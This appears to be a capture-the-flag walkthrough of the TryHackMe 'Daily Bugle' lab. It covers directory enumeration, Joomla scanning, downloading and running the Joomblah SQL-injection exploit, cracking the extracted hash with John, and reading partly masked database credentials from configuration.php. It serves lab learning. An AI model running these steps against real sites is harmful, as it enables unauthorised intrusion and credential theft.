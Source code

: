 # Daily Bugle Walkthrough -THM


![MainPage](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/DailyBugle.png "Website")

enumerate shares by using gobuster

```
gobuster dir -u http://10.10.87.111 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

![gobuster](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/gobuster.png "Website")


The administrator directory looks interesting...

![Joomlar]("https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/Joomlalogin.png" "Website")

Joomla login.

Downloaded joomscan

```
perl joomscan.pl -u http://10.10.87.111
```
![joomscan](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/Joomscan.png "Website")

Version found!

Get upgraded Joomblah script
https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py

```
wget https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py
```
```
python3 joomblah_py3.py http://10.10.172.228
```

![joomblah](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/joomlah_run.png "Website")

I created a text file with copied hash from joomblah output

```
nano hash.txt
(paste hash)
ctrl-x
y
enter
```

I then ran this against the hash pasted into hash.txt

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
User: j****
Password: s*********23
```

Found this in /var/www/html/configuration.php

```
public $user = 'root';
	public $password = 'nv***********Nu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'U***********mVC';
```





